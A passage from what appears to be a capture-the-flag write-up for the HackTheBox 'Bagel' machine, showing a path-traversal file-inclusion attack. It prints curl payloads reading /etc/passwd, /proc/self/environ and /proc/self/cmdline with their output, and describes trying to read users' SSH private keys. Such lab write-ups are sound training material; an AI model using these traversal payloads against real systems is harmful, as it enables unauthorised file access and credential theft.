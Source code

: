 ```bash
$curl "http://bagel.htb:8000/?page=../../../../../etc/passwd" 
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:65534:65534:Kernel Overflow User:/:/sbin/nologin
dbus:x:81:81:System message bus:/:/sbin/nologin
tss:x:59:59:Account used for TPM access:/dev/null:/sbin/nologin
systemd-network:x:192:192:systemd Network Management:/:/usr/sbin/nologin
systemd-oom:x:999:999:systemd Userspace OOM Killer:/:/usr/sbin/nologin
systemd-resolve:x:193:193:systemd Resolver:/:/usr/sbin/nologin
polkitd:x:998:997:User for polkitd:/:/sbin/nologin
rpc:x:32:32:Rpcbind Daemon:/var/lib/rpcbind:/sbin/nologin
abrt:x:173:173::/etc/abrt:/sbin/nologin
setroubleshoot:x:997:995:SELinux troubleshoot server:/var/lib/setroubleshoot:/sbin/nologin
cockpit-ws:x:996:994:User for cockpit web service:/nonexisting:/sbin/nologin
cockpit-wsinstance:x:995:993:User for cockpit-ws instances:/nonexisting:/sbin/nologin
rpcuser:x:29:29:RPC Service User:/var/lib/nfs:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/usr/share/empty.sshd:/sbin/nologin
chrony:x:994:992::/var/lib/chrony:/sbin/nologin
dnsmasq:x:993:991:Dnsmasq DHCP and DNS server:/var/lib/dnsmasq:/sbin/nologin
tcpdump:x:72:72::/:/sbin/nologin
systemd-coredump:x:989:989:systemd Core Dumper:/:/usr/sbin/nologin
systemd-timesync:x:988:988:systemd Time Synchronization:/:/usr/sbin/nologin
developer:x:1000:1000::/home/developer:/bin/bash
phil:x:1001:1001::/home/phil:/bin/bash
_laurel:x:987:987::/var/log/laurel:/bin/false
```

Apart from `root`, the `developer` and `phil` (user id >= 1000) look interesting.  I tried reading `../../../../home/developer/.ssh/id_rsa` and `../../../../home/phil/.ssh/id_rsa`, hoping to get a private SSH key, but just got `File not found`.

We can use procfs via LFI to enumerate further.  We try reading the environment by using `/proc/self/environ`, along with `/proc/self/cmdline`, to see the current process and arguments:

```bash
$curl "http://bagel.htb:8000/?page=../../../../../proc/self/environ" --output -
LANG=en_US.UTF-8PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/binHOME=/home/developerLOGNAME=developerUSER=developerSHELL=/bin/bashINVOCATION_ID=f9c0f362492c4ff9a36ee87a5a311a25JOURNAL_STREAM=8:25486SYSTEMD_EXEC_PID=897% 
curl "http://bagel.htb:8000/?page=../../../../../proc/self/cmdline" --output - 
python3/home/developer/app/app.py%          
```
